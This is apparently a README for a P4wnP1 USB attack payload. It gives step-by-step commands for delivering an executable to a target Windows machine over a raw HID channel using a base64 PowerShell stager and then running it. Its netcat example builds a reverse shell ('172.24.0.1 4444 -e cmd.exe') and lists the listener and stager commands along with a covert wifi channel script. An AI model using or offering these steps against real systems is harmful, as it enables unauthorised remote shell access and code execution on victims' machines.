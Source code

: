 # Deliver and Execute

## Description

Use P4wnP1 RAW HID channel to deliver and execute an Executable file using poershell

The **DeliverAndExec.py** Takes an Executable file, convert it to base64 and creates the powershell payload **Stage2.ps1** which will be delivered to the target machine via P4wnP1 RAW HID channel.

## DEMO

![](https://raw.githubusercontent.com/NightRang3r/P4wnP1-A.L.O.A.-Payloads/master/RAW%20HID%20Attacks/DeliverAndExecute/deliver.gif)

## Instructions (NETCAT Example)

- Using the P4wnP1 web interface set P4wnP1 as Keyboard and RAW HID
- SSH to P4wnP1 AP IP address
- Copy DeliverAndExec.py to ```/usr/local/P4wnP1/legacy/```
- Generate a payload: ```python DeliverAndExec.py /usr/share/windows-binaries/nc.exe out.exe "172.24.0.1 4444 -e cmd.exe"```
- Make sure the **Stage2.ps1** file is in the ```/usr/local/P4wnP1/legacy/``` directory
- Start the RAW HID Listener nad netcat listener
  - You can use the **DeliverAndExec.sh**  which will start the RAW HID listener, netcat listener and execute the wifi_covert_channel.js hidscript (made for the netcat example) or do it manually:
  - ```hidraw=$(P4wnP1_cli usb get device raw)```
  - ```python  /usr/local/P4wnP1/legacy/hidstager.py -s -i  /usr/local/P4wnP1/legacy/Stage2.ps1 -o $hidraw &```
  - ```netcat -lvp 4444```

- Using the P4wnP1 web interface Execute the **wifi_covert_channel.js** HIDscript
